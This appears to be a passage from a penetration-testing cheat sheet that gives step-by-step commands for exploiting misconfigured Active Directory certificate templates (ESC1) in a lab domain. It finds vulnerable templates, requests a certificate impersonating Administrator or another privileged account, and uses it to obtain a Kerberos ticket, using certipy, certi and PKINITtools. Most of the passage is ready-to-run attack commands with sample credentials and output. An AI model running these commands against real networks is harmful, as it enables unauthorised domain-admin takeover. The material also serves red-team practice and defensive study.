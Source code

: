 _Note that you would require one valid user to enroll the certificate_

1. List for available vulnerable templates using [certi](https://github.com/eloypgz/certi)
```bash
# Certipy
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout

# Certi
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --vuln --enabled

# output should normally be like this
Name: VulnUser
Schema Version: 2
Enroll Services: range-CA01-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication, Secure Email, Encrypting File System
msPKI-Certificate-Application-Policy: Client Authentication, Secure Email, Encrypting File System
SD Owner: S-1-5-21-3556610642-5733621-2059236447-500 range\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-512 range\Domain Admins
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
      S-1-5-21-3556610642-5733621-2059236447-519 range\Enterprise Admins
[[..snip..]]
```

2. If requirements are met, then request the certificate using certi by specifying alternate name that include a high privileged user (ie Domain Admins)
```bash
# Certi
python3 certi.py req range.net/peter:'Welcome1234'@CA01.range.net range-CA01-CA -k -n --template 'VulnUser' --alt-name 'rangeadm'

# Certipy
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'VulnUser' -upn 'Administrator@range.net'
```

3. A pfx certificate should now be retrieved. Run the following command to request tgt by using the ceritifcate by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)
```bash
# impacket
python3 gettgtpkinit.py range.net/rangeadm -cert-pfx /opt/certi/rangeadm@range.net.pfx -pfx-pass 'admin' -dc-ip 10.8.0.2 /tmp/rangeadm.ccache

# certipy
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```
